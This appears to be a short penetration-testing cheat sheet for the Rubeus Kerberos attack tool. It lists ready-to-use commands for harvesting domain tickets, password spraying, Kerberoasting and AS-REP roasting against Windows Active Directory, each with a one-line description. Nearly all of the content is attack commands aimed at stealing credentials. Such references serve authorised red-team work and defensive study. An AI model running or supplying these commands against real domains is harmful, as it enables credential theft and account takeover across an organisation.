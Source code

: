 # Rubeus

## Ticket Harvesting

Listen for incoming TGT calls on the DC. Allows to harvest TGT tickets and users in the domain

```
Rubeus.exe harvest /interval:<seconds>
```

## Password Spraying

Allows to spray a selected password against the users detected with the previous attack

```
Rubeus.exe brute /password:<password> /noticket
```

## Kerberoast

Returns a list of services vulnerable to Kerberoast attacks and relative Kerberos Hash

```
Rubeus.exe kerberoast
```

## AS-REP Roasting

Returns hasehs of users with  the flag "Do not require Kerberos pre-authentication" disabled

```
Rubeus.exe asreproast
```
